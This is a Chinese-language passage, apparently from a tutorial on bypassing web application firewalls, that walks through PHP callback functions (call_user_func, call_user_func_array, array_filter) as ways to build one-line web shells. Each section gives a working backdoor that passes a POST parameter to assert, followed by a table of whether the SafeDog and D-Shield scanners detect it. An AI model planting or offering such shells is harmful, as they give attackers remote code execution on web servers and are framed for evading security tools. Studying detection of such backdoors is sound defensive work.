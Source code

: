### 回调函数

常⽤的回调函数⼤部分都无法绕过 WAF 了。



####  all_user_func()

```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```

第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

```php
<?php
    call_user_func('assert',$_POST['x']);
?>
```

| 安全狗                          | D盾                              |
| :------------------------------ | :------------------------------- |
| 1 个安全风险 call_user_func后门 | 级别 5 (内藏) call_user_func后门 |

![0l3oeP.png](https://s1.ax1x.com/2020/10/02/0l3oeP.png)

![0l3xLq.png](https://s1.ax1x.com/2020/10/02/0l3xLq.png)

#### call_user_func_array()

```php
call_user_func_array ( callable $callback , array $param_arr )
```

把第一个参数作为回调函数（`callback`）调用，把参数数组作（`param_arr`）为回调函数的的参数传入。

```php
<?php
    call_user_func_array(assert,array($_POST['x']));
?>
```

不过安全狗和 D 盾都对这个函数进行检测了：

| 安全狗                                    | D盾                         |
| :---------------------------------------- | :-------------------------- |
| 1 个安全风险 call_user_func_array回调后门 | 级别 4 call_user_func_array |

#### array_filter()

```php
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] )
```

依次将 `array` 数组中的每个值传递到 `callback` 函数。如果 `callback` 函数返回 true，则 `array` 数组的当前值会被包含在返回的结果数组中，数组的键名保留不变。

```php
<?php
    array_filter(array($_POST['x']),'assert');
?>
```
